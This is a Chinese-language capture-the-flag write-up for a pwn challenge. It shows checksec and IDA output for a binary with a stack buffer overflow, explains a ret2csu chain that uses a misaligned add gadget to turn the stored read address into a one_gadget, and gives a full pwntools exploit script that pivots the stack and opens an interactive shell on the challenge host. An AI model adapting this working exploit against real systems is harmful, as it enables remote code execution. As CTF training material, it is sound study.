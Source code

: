 1. checksec

   ```
   ┌──(root㉿kali)-[/home/kali/Desktop/newstar_no_output]
   └─# checksec ./pwn   
   [*] '/home/kali/Desktop/newstar_no_output/pwn'
       Arch:     amd64-64-little
       RELRO:    Full RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x3ff000)

   ```
2. IDA

   ```
   int __cdecl main(int argc, const char **argv, const char **envp)
   {
     char buf[112]; // [rsp+0h] [rbp-70h] BYREF

     init(argc, argv, envp);
     read(0, buf, 0x200uLL);
     a = (__int64)&read;
     return 0;
   }
   ```

   没有调用过输出函数，但是可以知道变量a是read的地址，利用只能通过相对于read的偏移来利用
3. exp：

   看别人的wp才知道，在0x040112c处有 `add    DWORD PTR [rbp-0x3d], ebx`，是通过将前一个汇编拆分，和下一条汇编代码汇总得到的。题干中给了libc文件，即可以得到one_gadget相对于read的偏移，如果rbp=a+0x3d，ebx等于这个偏移量，执行这条汇编指令的时候就可以将变量a改为one_gadget的绝对地址。

   通过csu，控制rbp和rbx，实现上面的步骤，再利用leave_ret将栈迁移到a-0x8处，pop rbp，ret（pop rip）将rip指向one_gadget。

   ```
   from pwn import *

   context(log_level='debug',arch='amd64',os='linux')

   # io = process('/home/kali/Desktop/newstar_no_output/pwn')
   io = remote("node5.buuoj.cn",29172)
   # io = gdb.debug('/home/kali/Desktop/newstar_no_output/pwn','b *main')

   rbp_0x3_add_ret = 0x040112c #01 5d c3    add    DWORD PTR [rbp-0x3d], ebx
   pop_rdi_ret =  0x401253
   csu_init = 0x40124A
   a = 0x404050
   leave_ret = 0x4011EA

   one_gadget = 0xe3afe
   # one_gadget = 0xe3b01
   # one_gadget = 0xe3b04

   read_rel_adress = 0x10DFC0 # 0x7ffff7ee2fc0 - 0x7ffff7dd5000

   number = one_gadget-read_rel_adress
   # number = struct.pack("<q", number)
   print(hex(number))

   payload = b'a' * 120
   payload += p64(csu_init) + b'\x3e\x5b\xfd\xff\x3e\x5b\xfd\xff' + p64(a+0x3d) + p64(0) + p64(0) + p64(0) + p64(0)
   payload += p64(rbp_0x3_add_ret) + p64(0x40124B) + p64(a - 0x8) + p64(0) + p64(0) + p64(0) + p64(0)
   payload += p64(leave_ret)

   io.send(payload)
   # gdb.attach(io)
   io.interactive()
   ```
